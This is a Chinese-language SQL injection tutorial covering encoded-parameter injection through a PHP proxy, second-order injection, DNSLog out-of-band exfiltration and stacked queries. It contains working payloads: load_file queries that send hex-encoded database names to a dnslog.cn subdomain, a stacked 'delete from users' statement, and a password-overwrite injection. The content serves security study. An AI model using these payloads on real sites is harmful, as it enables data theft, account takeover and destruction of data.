



# 二次，加解密，DNS，堆叠等SQL注入

## 加解密

一般情况下，有些网站会在接受参数的时候，会对参数进行编码处理，在我们注入的时候我们就需要对参数进行相应的编码，然后在提交进行注入。这种就是加解密注入。

一般情况下编码中含有`==`的就是`base64`编码，`%3D`在`base64`中是`=`

加解密注入的时候，可以结合延时注入，报错注入，布尔注入，等操作进行注入。

### 使用代理的方式

因为在注入网站的时候需要使用到加解密，我们一个一个的去写相应的编码过于麻烦，我们就可以使用一种方法，这种方式就是使用相应代理（也就是爬虫的方式）进行数据的传递。

原理：

我们传递一个普通的数据，在进行我们网站的转换，将我们传递的普通数据，转换为一个相应编码的数据，进行相应数据库的注入。

对于PHP来说可以使用：`file_get_contents()`这个函数，将一个文件读取到一个字符串中。

```php
<?php
	$url = "https://www.mypage.com/job/mytest.php?id=";
	$payload = base_encode($_GET['x']);
	$urls = $url.$payload;
	file_get_contents($urls);
?>
```

对于python来说可以使用requests这个库，也可以实现相应的功能。

## 二次注入

注：二次注入，一般情况下是黑盒测试（无法进行测试）无法通过工具或者手工注入去挖掘相应的漏洞的，你需要拿到网站的源代码（进行代码审计），然后才可以进行注入。



总结：先写一个注入语句到数据库中，然后在去执行这个数据

为什么说二次注入无法通过黑盒挖掘：

因为你不知道要插入的数据是什么，就算你知道要插入的数据是什么，也不知道如何使用这个数据，所以你只能去进行代码审计去挖掘这种漏洞。无法去猜，无法去爆破。

举例：

```mysql
update users SET password='$pass' where username='$username' and password='$curr_pass';
```

对于这个update语句，如果你在注册的时候`username`写的是`admin'#`种的，我们就可以在执行这个update语句的时候实现二次注入，

```mysql
update users set password='$pass' where username='$username'#' and password='$curr_pass';
# 后面的是注释语句，就修改了admin这个用户的密码，从而实现二次注入。
```

## DNSLog注入

这个注入不常用，这个漏洞需要高权限，需要有文件读写的高权限，因为后面你写的文件不一定能够上传，就选上传了，也不一定可以使用。

DNSLog的核心就是使用文件读取的函数：`load_file`，这个函数可以读取本地服务器的文件，也可以访问互联网的文件，但是在使用load_file函数访问互联网的文件的时候需要在前面加上`//`，注意是**访问文件**，不是访问目录。这个文件存不存在没有关系，在访问这个记录的时候，DNS会帮我们记录访问的url。这样就记录了我们的访问信息。其中就由我们要的数据。

但是这个方法是由局限性的，因为url中传递的内容是由长度的，而且有些字符不能够进行传输，eg:`{,}!`这就会导致我们的`load_file`失效，如何解决呢？

我们可以使用十六进制进行解决，通过对select语句的结果进行hex编码，就可以得到我们想要的结果。然后在对得到的十六进制进行解码。

```mysql
select * from users where id = 1 and if((select load_file(concat('\\\\',(
select hex(database())),'.hhsztj.dnslog.cn\\1.txt'))),1,0);
```



在使用`load_file`函数的时候，其中可以使用`concat`函数对相应的字符串进行拼接。

```mysql
select * from users where id = 1 and if((select load_file(concat('\\\\',(
select database()),'.hhsztj.dnslog.cn\\1.txt'))),1,0);

select * from users where id = 1 and if((select load_file(concat('//',(
select database()),'.hhsztj.dnslog.cn/1.txt'))),1,0);
```



###### 分享两个DNSLog的平台

http://dnslog.cn/ # 公共DNS免费平台

http://ceye.io/ # 404的DNS平台

https://github.com/ADOOO/DnslogSqlinj # 这是一个专门针对于DNSLog而写的工具。

## 堆叠注入

堆叠注入是分数据库的，MySQL中有堆叠注入。有一些数据库不能够实现堆叠注入，eg：MSSQL。

```mysql
select * from users;select username from users;
```

因为在MySQL中一个`;`决定了一个数据的结束，所以使用`;`可以执行多个数据库语句。

我们可以看到这个与union injection(联合注入)有一点相似，但是两者之间有什么区别呢？

区别在于`union`或者`union all`执行的语句是有限的，而且必须是查询语句，但是堆叠查询是可以执行任意语句的。

```mysql
select * from users where id = 1;delete from users;
# 这个就是堆叠，第一条显示查询信息，第二条则是删除整个表
```

堆叠注入是由一定的局限性的，是需要知道一些数据库的相关信息的，例如：表名，列名等信息。

堆叠注入的应用：

当注入需要管理员账号密码，密码是加密的，无法解密。

堆叠注入进行插入数据，用户名密码自定义的，可以正常解密登录。就不需要考虑相应的账号密码了。

```mysql
select * from users where id = 15;update users set password = 'rootadmin' where id = 15; #'' limit 0,1;
```

